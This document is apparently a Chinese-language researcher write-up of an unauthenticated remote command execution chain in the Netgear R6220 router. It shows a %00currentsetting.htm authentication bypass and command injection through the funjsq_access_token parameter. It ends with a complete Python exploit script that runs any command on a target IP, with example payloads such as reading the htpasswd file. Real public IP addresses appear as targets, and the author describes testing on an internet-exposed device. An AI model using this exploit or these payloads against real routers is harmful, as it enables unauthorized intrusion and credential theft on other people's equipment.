


# netgearR6220

发现netgearR6200中，存在一个未授权，但是光未授权，太鸡肋了。想找一个命令执行，结合来使用，于是就有了这篇文章。
这里未授权的exp很简单，
```
http://83.251.186.152/index.htm%00currentsetting.htm
```
就是在url中添加%00currentsetting.htm可以绕过授权检查。这里的原理我在另一篇文章https://github.com/theRaz0r/Iot-vulnerability/blob/main/Netgear/DGN1000_unauthorized_comamnd_injection/DGN1000_unauthorized_comamnd_injection.md已经有过详细分析。


---


程序的逻辑为url传递到8080端口由mini_httpd来执行程序，最后当我们的url中含有setup.cgi的时候，程序会去调用另一个程序setup.cgi ，参数是以环境变量的形式传递的。


首先简单分析下，setup.cgi   ，当url中todo为debug时，程序会调用函数sub_41110C，而此函数会启动telnetd服务，支持远程telnet


我们简单构造先试一试



发现回显未授权Unauthorized。
经过字符串搜索发现，Unauthorized的处理逻辑应该全在mini_httpd中，只有通过授权，才会调用到setup.cgi

我们结合利用%00currentsetting.htm试试，


发现并无回显，怎么回事呢，我们来分析下debug调用的函数

发现url中要不含有htm,html,next_file,this_file这四个字符串，才能正常执行。含有的话，就直接return 0了。但是我们这里要利用未授权的话，是必须要含有%00currentsetting.htm，也就是肯定有htm的。
所以我们换一个函数，验证下，是否是我们推断的原因。


程序中，这一段函数都是todo参数，通过解析字符串来调用的功能，我们可以在其中找一个试试。

我选择了ppp_debug来实验


果然 ，现在程序有回显了


显示 403 Forbidden。搜索了下字符串
在setup.cgi中发现了send_forbidden


那么走到这里至少说明我们的程序是确实是通过未授权，启动了setup.cgi，成功将参数传递了进来

接下来，我们在todo对应解析的函数中，寻找是否有命令注入。


iserver_allow_ctrl在这里发现一个注入点


虽然他这里过滤了，但是我研究了一下应该是能绕过的。


尝试构造了一下exp,但是无回显。


我们先模拟一下，setup.cgi 试试 ，看命令COMMAND("/bin/echo %s >> /tmp/itunes/apple.remote", v8);是否真的执行了。


---

用户模拟setup.cgi


根据提示，添加环境变量REQUEST_METHOD


---


## 命令执行


发现todo=funjsq_login会调用sub_406790函数，而其中的funjsq_access_token会造成命令执行。

动态调试一下


执行command的时候，查看下s0寄存器的值。

发现我们的值，已经进来了。
他这里会执行
COMMAND("/tmp/funjsq/bin/funjsq.sh login 123465789|ls>1")

---
# 在线测试
因为模拟不起来，找一台在线机器测试一下


这里成功收到了信号


成功完成未授权RCE。

---


exp.py

```
import requests
import sys

# Define the function to perform the attack

def attack(target_ip, cmd):
    try:
        # 构造攻击的URL
        burp0_url = f"http://{target_ip}:8080/setup.cgi?todo=funjsq_login&funjsq_access_token=12345|{cmd}&test=11%00currentsetting.htm"
        burp0_headers = {
            "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Accept-Encoding": "gzip, deflate, br",
            "X-Requested-With": "XMLHttpRequest",
            "Connection": "close",
           
        }

        # 发送带有头部信息的GET请求到目标URL，并设置超时时间为5秒
        response = requests.get(burp0_url, headers=burp0_headers, timeout=5)

        # 检查响应状态码是否为200（OK）
        if response.status_code == 200:
            print("Response content:")
            print(response.text)
        else:
            print("Request failed with status code:", response.status_code)
    except requests.exceptions.Timeout:
        print("Request timed out after 5 seconds.")
    except Exception as e:
        print(f"Error: {e}")

# 使用示例
# attack('192.168.1.1', 'ls -la')

# Check if the script is run directly (not imported as a module)
if __name__ == "__main__":
    # Check if the correct number of command line arguments is provided
    if len(sys.argv) != 3:
        print("Usage: python exp.py target_ip \"command\"")
        sys.exit(1)

    # Read the target IP and command from command line arguments
    host = sys.argv[1]  # The target IP address, for example "151.71.83.247"
    payload = sys.argv[2]  # The command to execute, for example "cat%20/tmp/etc/htpasswd"

    print(f"Target: {host}")
    print(f"Payload: {payload}")
    
    # Call the attack function with the provided arguments
    attack(host, payload)
```


